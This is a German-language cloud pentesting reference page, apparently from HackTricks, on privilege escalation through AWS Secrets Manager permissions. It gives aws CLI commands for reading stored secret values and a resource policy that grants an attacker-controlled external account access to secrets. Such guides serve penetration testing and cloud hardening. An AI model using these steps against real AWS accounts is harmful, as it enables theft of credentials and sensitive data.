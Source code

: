 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Für weitere Informationen über Secrets Manager siehe:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Ein attacker mit dieser Berechtigung kann den **gespeicherten Wert in einem Secret** in AWS **Secretsmanager** abrufen.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Mögliche Auswirkung:** Zugriff auf hochsensible Daten im AWS Secrets Manager.

> [!WARNING]
> Beachte, dass selbst mit der Berechtigung `secretsmanager:BatchGetSecretValue` ein Angreifer außerdem `secretsmanager:GetSecretValue` benötigt, um die sensiblen Secrets abzurufen.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Mit den vorherigen Berechtigungen ist es möglich, **anderen principals/accounts (auch externen) Zugriff zu gewähren**, um auf das **secret** zuzugreifen. Beachte, dass zum **Lesen von mit einem KMS-Key verschlüsselten Secrets** der Benutzer außerdem **Zugriff auf den KMS-Key** benötigt (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
